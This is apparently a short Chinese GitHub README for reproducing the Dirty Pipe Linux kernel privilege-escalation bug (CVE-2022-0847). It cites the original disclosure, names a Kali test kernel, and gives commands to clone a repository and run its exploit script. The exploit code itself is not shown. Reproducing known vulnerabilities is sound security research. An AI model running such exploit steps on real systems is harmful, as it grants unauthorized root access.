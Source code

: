 # CVE-2022-0847
CVE-2022-0847简单复现  

披露老哥原文地址：`https://dirtypipe.cm4all.com/`

## 复现环境
```bash
Linux kali 5.10.0-kali7-amd64 #1 SMP Debian 5.10.28-1kali1 (2021-04-12) x86_64 GNU/Linux
```

## 依赖

```bash
gcc
```
## 使用步骤
```bash
git clone https://github.com/imfiver/CVE-2022-0847.git
cd CVE-2022-0847
chmod +x Dirty-Pipe.sh
bash Dirty-Pipe.sh
```
 
<img src="https://user-images.githubusercontent.com/21257485/157100477-ec68c9a8-44c1-4dd4-ac4d-f70a08597359.png" style="zoom:30%" />

